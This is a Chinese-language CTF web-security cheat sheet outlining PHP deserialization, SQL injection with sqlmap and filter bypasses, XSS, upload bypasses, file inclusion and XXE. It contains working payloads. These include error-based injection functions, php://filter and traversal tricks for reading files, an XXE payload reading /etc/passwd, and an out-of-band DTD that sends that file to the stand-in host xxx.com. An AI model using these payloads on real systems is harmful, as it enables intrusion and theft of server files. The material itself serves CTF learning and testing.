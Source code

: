 ##

### 一.隐藏信息
1. 源代码隐藏关键信息
2. 请求和响应头隐藏关键信息

### 二.代码审计

1.1php漏洞

1.1.1 序列化与反序列化

（1）序列化

序列化就是把一个对象（非类）存成一个字符串，要用时再反序列释放出它。
注意序列化只会包含对象的变量，不会包含函数。而且序列化对象后面的字符串不会再反序列化时解析（md5扩展长度攻击时可用）

（2）session序列化

（3）序列化漏洞

当序列化字符串中，表示对象属性个数的值大于实际个数时，在反序列化后就会跳过wakeup方法的执行



1.2 md5扩展长度攻击


1.3 本地JS代码审计


1.4 修改请求头
Referef:
X-Forwarded-For:
User-Agent:
Accept-Language:

### 三.目录扫描
1. 敏感文件扫描
工具：[dirsearch](https://github.com/maurosoria/dirsearch),御剑

2. git泄露
工具：[GitHack](https://github.com/lijiejie/GitHack),

3. vim泄露
.swp文件

~文件

通过
```
vim -r 交换文件还原
```

### 四.sql注入

sqlmap -u {url} --batch -v {number} --level {number} --dump

1. 基于查询类型划分

    1.1. 数字型注入

    1.2. 字符型注入

2. 基于注入类型划分：

    2.1. union注入

    2.2. 报错注入

    concat(0x3e,(),0x3e)
    updatexml(0x3e,(),0x3e)

    2.3. 盲注

        2.3.1. 布尔盲注

        2.3.2. 时间盲注

3. 基于字段划分:

    3.1. get,post参数

    3.2. XFF

    3.3. cookie

    3.4. 基于数据库划分

        3.4.1. mysql

        3.4.2. sqlite

        3.4.3. access

    3.4.绕过方法
        3.4.1. 空格

        3.4.2. 引号

        3.4.3. 注释
         1. 可以用引号连接后面的引号代替注释,and ''=',and '1'='1
         2. %23代替#
         3. --+
         4. /*    */(比较特殊，一般用在双关键字查询)

        3.4.4. 关键字
         1. 外重写,select->seleselectct
         2. 内联注释,\/\*!\*\/

        3.4.5. 常用函数

### 五.XSS
1. 存储型XSS

2. 反射型XSS

3. DOM型XSS

### 六.文件上传和文件解析
文件上传：
- 本地js
- filename文件后缀名
- Content-Type文件类型
- filename+Content-Type绕过
- 文件内容绕过 图片马，声音马

文件解析


### 八.文件包含
题眼：
page=
file=
action=

主要函数：
include()
require()
file_get_contents()

主要姿势：
php://input 标准输入，post中带输入内容
php://filter/read=convert.base64-encode/resource=文件名   标准输出，输出指定文件内容。
../../ 目录穿越


1. 本地文件包含
引用的是服务器上的文件

2. 远程文件包含
引用的是非服务器上的文件，一般默认关闭


### 九.XXE
XML外部实体注入，当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行，内网端口探测、攻击内网网站等目的。


必备条件：
Content-Type: application/xml
post请求中传入poc

一般poc:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo[ 
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<foo>&f;</foo>
```


远程DTD
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://xxx.com/xxe_file.dtd">
<data>&xxe;<data>
```
http://xxx.com/xxe_file.dtd:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "><!ENTITY xxe SYSTEM 'http://xxx.com/?%file;'>">
%all
```
引用自https://www.freebuf.com/articles/web/177979.html

### 十.命令执行
经常flag就在同级目录下面的文件名或者文件中。可以通过ls,cat等命令查看。
或者利用语言所带的查看文件内容和查看目录下文件查看。


### 十一.远程代码执行


